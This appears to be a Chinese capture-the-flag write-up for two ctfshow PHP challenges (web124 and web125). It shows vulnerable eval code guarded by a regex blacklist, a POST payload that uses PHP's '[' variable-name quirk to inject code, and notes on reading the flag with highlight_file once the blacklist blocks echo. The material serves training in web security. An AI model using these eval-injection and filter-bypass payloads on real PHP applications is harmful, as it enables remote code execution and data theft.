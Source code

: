 ```
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
```

这题对c进行了一定的限制，但是影响不大我们可以直接再eval处执行echo $flag;从而拿到flag

这题还有一个考点，由于在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有空格、+、[则会被转化为_，所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.)，但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换

payload:

```
POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun= echo $flag
```



#### web125

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

这题把上题的echo方法和flag关键词ban了

考虑通过二次传参的方法读flag

我一开始考虑了system二次传参的方法，但是system方法应该是被ban掉了

后面尝试highlight_file方法成功读到flag
